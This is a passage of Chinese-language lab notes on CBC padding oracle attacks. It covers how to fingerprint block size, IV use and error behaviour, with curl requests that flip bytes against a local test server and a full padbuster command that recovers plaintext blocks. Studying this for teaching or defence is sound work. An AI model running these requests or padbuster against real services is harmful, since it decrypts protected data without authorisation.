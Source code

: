 Note：其实理论上我们可以利用任何一个区块的中间值和密文，并不一定用第一个区块的

### 难度升级

难度点：

+ 不带IV
+ 返回的exception有语法判断，没有特定的错误提示

基本判断：

```
密文的blocksize是8还是16还是其他；
密文的第一个区块是iv还是对应的明文加密（不带iv）；
判断语法检查：verify that there are no syntax checks performed on the decrypted data
如果是带iv，flip first byte of the second block，如果是不带iv则flip first byte：简单情况 decryption error或者显示正常信息但是开头是乱码；复杂情况是可能返回 invalid json之类的
判断是否存在padding oracle，check how the application reacts to incorrect padding
flip last byte：简单情况是 padding error，复杂情况跟前面类似，如果返回invalid json就基本无解，如果返回missing filed：username之类的还有救，
比如完整明文是ApplicationUsername=user&Password=sesame，报错missing UserName，
```

复杂例子分析：

```
curl http://127.0.0.1:5000/check?cipher=484b850123a04baf15df9be14e87369bc59ca16e1f3645ef53cc6a4d9d87308ed2382fb0a54f3a2954bfebe0a04dd4d6

484b850123a04baf15df9be14e87369b	ApplicationUsern
c59ca16e1f3645ef53cc6a4d9d87308e	ame=user&Passwor
d2382fb0a54f3a2954bfebe0a04dd4d6	d=sesame

decrypted: ApplicationUsername=user&Password=sesame

parsed: {'Password': ['sesame'], 'ApplicationUsername': ['user']}

简单情况：
flip first byte：
curl http://127.0.0.1:5000/echo?cipher=ff4b850123a04baf15df9be14e87369bc59ca16e1f3645ef53cc6a4d9d87308ed2382fb0a54f3a2954bfebe0a04dd4d6

decrypted: �+�]7N�d�����N�me=user&Password=sesame

flip last byte：
curl http://127.0.0.1:5000/echo?cipher=484b850123a04baf15df9be14e87369bc59ca16e1f3645ef53cc6a4d9d87308ed2382fb0a54f3a2954bfebe0a04dd4ff

decryption error

破解：
padbuster "http://127.0.0.1:5000/echo?cipher=484b850123a04baf15df9be14e87369bc59ca16e1f3645ef53cc6a4d9d87308ed2382fb0a54f3a2954bfebe0a04dd4d6" "484b850123a04baf15df9be14e87369bc59ca16e1f3645ef53cc6a4d9d87308ed2382fb0a54f3a2954bfebe0a04dd4d6" 16 -encoding 1

484b850123a04baf15df9be14e87369b
c59ca16e1f3645ef53cc6a4d9d87308e	ame=user&Passwor
d2382fb0a54f3a2954bfebe0a04dd4d6	d=sesame

可以看到不带iv，则第一个区块无法解密出来

复杂情况（echo方法是为了让我们看清内容）：

如果只包含password：
38d057b13b8aef21dbf9b43b66a6d89a
# curl http://127.0.0.1:5000/echo?cipher=38d057b13b8aef21dbf9b43b66a6d89a
decrypted: Password=sesame
```